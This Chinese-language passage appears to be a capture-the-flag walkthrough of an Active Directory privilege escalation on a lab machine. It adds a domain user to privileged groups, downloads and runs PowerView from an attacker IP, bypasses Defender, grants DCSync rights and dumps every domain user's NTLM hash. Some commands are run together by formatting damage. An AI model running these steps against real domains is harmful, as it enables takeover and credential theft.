 
```
net user john abc123! /add /domainnet group "Exchange Windows Permissions" john /addnet localgroup "Remote Management Users" john /add
```

上面的命令创建了一个名为 john 的新用户，并将他添加到所需的组中。接下来，下载 PowerView 脚本并将其导入到当前会话中。

![](img/7e8e72b82b47bdf77087f62009647311.png)

菜单>旁路-4MSI

Bypass-4MSI 命令用于在导入脚本之前避开 defender。接下来，我们可以将 Add-ObjectACL 用于 john 的凭证，并授予他 DCSync 权限。

![](img/d8d6d2cc745147ecef6436f5eae40ecd.png)

```
IEX(New-Object Net.WebClient).downloadString('[<http://10.10.14.11/PowerView.ps1>](<http://10.10.14.11/PowerView.ps1>)')$pass = convertto-securestring 'abc123!' -asplain -force$cred = new-object system.management.automation.pscredential('htb\\john', $pass)Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity john -Rights DCSync
```

运行后:

[secrets dump . py](http://secretsdump.py/)htb/John @ 10 . 10 . 10 . 161

其中 htb 是域

Impacket 中的脚本现在可以作为 john 运行，并用于显示所有域用户的 NTLM 哈希。
